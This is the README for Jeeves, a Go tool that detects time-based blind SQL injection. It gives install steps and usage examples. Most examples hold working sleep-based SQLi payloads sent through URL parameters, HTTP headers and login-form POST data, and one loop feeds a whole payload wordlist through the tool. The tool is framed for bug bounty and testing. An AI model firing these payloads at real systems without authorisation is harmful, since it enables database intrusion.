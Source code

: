 [![made-with-Go](https://img.shields.io/badge/made%20with-Go-brightgreen.svg)](http://golang.org)
<h1 align="center">Jeeves</h1> <br>

<p align="center">
  <a href="#--usage--explanation">Usage</a> •
  <a href="#--installation--requirements">Installation</a>
</p>

<h3 align="center">Jeeves is made for looking to Time-Based Blind SQLInjection through recon.</h3>
<img src="gojayyyy.png">

## Contents:

- [Installation](#--installation--requirements)
- [Usage](#--usage--explanation)
  - [Adding Headers](#adding-headers)
  - [Using Proxy](#using-proxy)
  - [Making Post Request](#post-request)
  - [Multiple ways of usage](#another-ways-of-usage)


## - Installation & Requirements:

Installing Jeeves 💀

```bash
$ go install github.com/ferreiraklet/Jeeves@latest
```
OR
```bash 
$ git clone https://github.com/ferreiraklet/Jeeves.git
$ cd Jeeves
$ go build jeeves.go
$ chmod +x jeeves
$ ./jeeves -h
```
<br>


## - Usage & Explanation:
In Your recon process, you may find endpoints that can be vulnerable to sql injection,
Ex: https://redacted.com/index.php?id=1
    
### Single urls

```bash
echo 'https://redacted.com/index.php?id=your_time_based_blind_payload_here' | jeeves -t payload_time
echo "http://testphp.vulnweb.com/artists.php?artist=" | qsreplace "(select(0)from(select(sleep(5)))v)" | jeeves --payload-time 5
echo "http://testphp.vulnweb.com/artists.php?artist=" | qsreplace "(select(0)from(select(sleep(10)))v)" | jeeves -t 10
```

In --payload-time you must use the time mentioned in payload

<br>

### From list 

```cat targets | jeeves --payload-time 5```
    
### Adding Headers

Pay attention to the syntax! Must be the same =>

```bash
echo "http://testphp.vulnweb.com/artists.php?artist=" | qsreplace "(select(0)from(select(sleep(5)))v)" | jeeves -t 5 -H "Testing: testing;OtherHeader: Value;Other2: Value"
```

### Using proxy

```bash
echo "http://testphp.vulnweb.com/artists.php?artist=" | qsreplace "(select(0)from(select(sleep(5)))v)" | jeeves -t 5 --proxy "http://ip:port"
echo "http://testphp.vulnweb.com/artists.php?artist=" | qsreplace "(select(0)from(select(sleep(5)))v)" | jeeves -t 5 -p "http://ip:port"
```
<br>

Proxy + Headers =>

```bash
echo "http://testphp.vulnweb.com/artists.php?artist=" | qsreplace "(select(0)from(select(sleep(5)))v)" | jeeves --payload-time 5 --proxy "http://ip:port" -H "User-Agent: xxxx"
```

### Post Request

Sending data through post request ( login forms, etc )

Pay attention to the syntax! Must be equal! ->

```bash
echo "https://example.com/Login.aspx" | jeeves -p 10 -d "user=(select(0)from(select(sleep(5)))v)&password=xxx"
echo "https://example.com/Login.aspx" | jeeves -p 10 -H "Header1: Value1" -d "username=admin&password='+(select*from(select(sleep(5)))a)+'" -p "http://yourproxy:port"
```

## Another ways of Usage

You are able to use of Jeeves with other tools, such as gau, gauplus, waybackurls, qsreplace and bhedak, mastering his strenght

<br>

**Command line flags**:
```bash
 Usage:
 -t, --payload-time,  The time from payload
 -p, --proxy          Send traffic to a proxy
 -c                   Set Concurrency, Default 25
 -H, --headers        Custom Headers
 -d, --data           Sending Post request with data
 -h                   Show This Help Message
```  

<br> 

Using with sql payloads wordlist

```bash
cat sql_wordlist.txt | while read payload;do echo http://testphp.vulnweb.com/artists.php?artist= | qsreplace $payload | jeeves -t 5;done
```

Testing in headers

```bash
echo "https://target.com" | jeeves -H "User-Agent: 'XOR(if(now()=sysdate(),sleep(5*2),0))OR'" -t 10
echo "https://target.com" | jeeves -H "X-Forwarded-For: 'XOR(if(now()=sysdate(),sleep(5*2),0))OR'" -t 10

Payload credit: https://github.com/rohit0x5
```

OBS: 
* Does not follow redirects, If the Status Code is diferent than 200, it returns "Need Manual Analisys"
* Jeeves does not http probing, he is not able to do requests to urls that does not contain protocol ( http://, https:// )
<br>

## This project is for educational and bug bounty porposes only! I do not support any illegal activities!.

If any error in the program, talk to me immediatly.


## Please, also check these => <br>
> [Nilo](https://github.com/ferreiraklet/nilo) - Checks if URL has status 200

> [SQLMAP](https://github.com/sqlmapproject/sqlmap)

> [Blisqy](https://github.com/JohnTroony/Blisqy) Header time based SQLI
